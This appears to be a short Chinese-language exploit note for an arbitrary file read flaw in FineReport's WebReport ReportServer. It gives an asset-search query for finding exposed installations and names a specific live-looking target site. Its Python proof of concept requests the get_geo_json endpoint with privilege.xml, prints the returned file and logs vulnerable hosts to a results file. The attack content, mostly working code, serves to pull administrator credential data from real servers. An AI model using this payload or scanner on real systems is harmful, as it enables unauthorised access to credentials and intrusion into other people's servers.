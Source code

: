 ## 一、资产搜索

```
body="isSupportForgetPwd"
```

## 二、网站测试

```
http://frpt.ccig.com
```

## 三、验证漏洞

![image-20240906213636468](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240906213636468.png)

## 四、POC

```
payload = "/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "rootManagerName" in res2.text:
                with open("result.txt",'a',encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                print(f"该网站[+]{target}存在任意文件读取漏洞")
                print(res2.text)
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞\n")
        else:
            print("访问超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240906213234808](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240906213234808.png)

